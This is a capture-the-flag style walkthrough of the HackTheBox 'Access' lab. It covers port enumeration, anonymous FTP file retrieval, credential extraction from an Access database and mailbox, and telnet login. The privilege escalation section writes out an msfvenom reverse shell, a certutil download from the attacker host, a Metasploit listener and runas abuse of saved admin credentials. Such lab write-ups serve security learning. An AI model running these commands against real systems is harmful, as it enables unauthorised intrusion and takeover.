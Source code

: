 # **Access - HackTheBox Lab**

**Date:** 2024-12-08  
**Target:** `10.10.10.98`  

## **Scope**

The goal is to enumerate the target, identify vulnerabilities, gain access, and escalate privileges.

---

## **Gaining Access**

### **Ports Enumeration**

1. **Initial Full Port Scan**  
   I ran a full TCP port scan to identify all open ports:
   ```bash
   nmap -A -p- -iL target -v
   ```
   Results revealed three open ports:  
   - **Port 21:** FTP (Microsoft ftpd)  
   - **Port 23:** Telnet  
   - **Port 80:** HTTP (Microsoft IIS httpd 7.5)

2. **Targeted Port Scan**  
   To gather detailed information, I performed an aggressive scan against the identified ports:
   ```bash
   nmap -A -p21,23,80 -iL target -v -oN target_ports.txt
   ```
   Key findings included:  
   - FTP allows **anonymous login** but restricts directory listing.
   - HTTP server runs **Microsoft IIS 7.5**, hosting a simple web page.
   - Telnet prompts for login credentials.

---

### **HTTP Enumeration**

1. **Web Server Overview**  
   The HTTP server displayed a static page with the title "MegaCorp." Server headers identified it as **Microsoft IIS 7.5** running ASP.NET.

2. **Search for Vulnerabilities**  
   Using `searchsploit`, I looked for potential exploits:
   ```bash
   searchsploit iis 7.5
   ```
   No critical vulnerabilities directly applicable to the setup were identified.

3. **Directory Brute-Forcing with `ffuf`**  
   A brute-force directory scan using `ffuf` yielded no additional paths.

4. **Nikto Scan**  
   A `nikto` scan highlighted several informational findings, including:
   - Missing `X-Frame-Options` and `X-Content-Type-Options` headers.
   - Supported HTTP methods: `OPTIONS, TRACE, GET, HEAD, POST`.

---

### **Telnet Enumeration**

1. **Login Prompt**  
   Attempting to connect:
   ```bash
   telnet 10.10.10.98 23
   ```
   This revealed a **Microsoft Telnet Service** requiring credentials.

2. **Nmap Telnet Script Scan**  
   Using Nmap scripts for Telnet:
   ```bash
   nmap -n -sV -Pn --script "*telnet* and safe" -p 23 $(cat target)
   ```
   The scan revealed additional information:
   - **Host Name:** ACCESS

---

### **FTP Enumeration**

1. **Access FTP Server**  
   Anonymous login was enabled:
   ```bash
   ftp -a 10.10.10.98
   ```
   Inside the FTP server, I discovered two files:  
   - `backup.mdb` (Microsoft Access Database)  
   - `Access Control.zip` (Password-protected ZIP file)

2. **Download Files**  
   To download the files:
   ```bash
   bin
   get backup.mdb
   get "Access Control.zip"
   ```

   ![image](https://github.com/user-attachments/assets/95c46133-1ab3-4af9-b701-65e5696af23f)

3. **Analyze Database File**  
   Using `mdb-tools`, I extracted tables from the `.mdb` file:
   ```bash
   mdb-tables backup.mdb | sed 's/ /\n/g' > tables
   ```
   The `auth_user` table contained credentials, which I exported:
   ```bash
   mdb-export backup.mdb auth_user > auth_user.csv
   ```
   
   ![image](https://github.com/user-attachments/assets/b49f3d06-3df1-4b63-900d-96555d817181)

4. **Decrypt ZIP File**  
   One password from the `auth_user` table successfully decrypted `Access Control.zip`:
   ```bash
   7z x "Access Control.zip"
   ```
   This extracted a `.pst` file (Microsoft Outlook Data File).

5. **Converted pst file to mbox**
   To convert a pst file to mbox I ran:
   ```bash
   readpst "Access Control.pst"
   ```
6. **Gain Access**
   Reading the mbox file I found the user credential.
   I used telnet to test them and I gain access on the target machine, obtaining the user flag.

---

## **Privilege Escalation**

1. **System Information**  
   Running `systeminfo`:
   ```cmd
   systeminfo
   ```
   Identified:
   - **OS:** Windows Server 2008 R2 Standard  
   - **Hotfixes:** Multiple missing patches (potential vulnerabilities).  

2. **Exploit Preparation**  
   I notice Administrative credential saved on the target machine by running:
   ```cmd
   cmdkey /list
   ```
   
   ![image](https://github.com/user-attachments/assets/952e395b-1361-4ff0-a317-59b06b60500a)

   I prepared a reverse shell payload using `msfvenom`:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=2323 -f exe > p.exe
   ```

3. **File Transfer**  
   Using `certutil`, I transferred the payload to the victim machine:
   ```cmd
   cd %TEMP%
   certutil -urlcache -f "http://10.10.16.9:9878/p.exe" p.exe
   ```

4. **Open Listener**  
   On my local machine, I started a listener with `msfconsole`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 10.10.16.9
   set LPORT 2323
   run
   ```
5. **Execute Payload**  
   I used stored credentials to run the payload with administrative privileges:
   ```cmd
   runas /savecred /user:ACCESS\Administrator p.exe
   ```
   I got the shell and the root flag.

---

## **Resources**

- [Kali - MDB Tools](https://www.kali.org/tools/mdbtools/)  
- [Kali - libpst](https://www.kali.org/tools/libpst/)  
- [Windows Privilege Escalation Notes](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md)

---
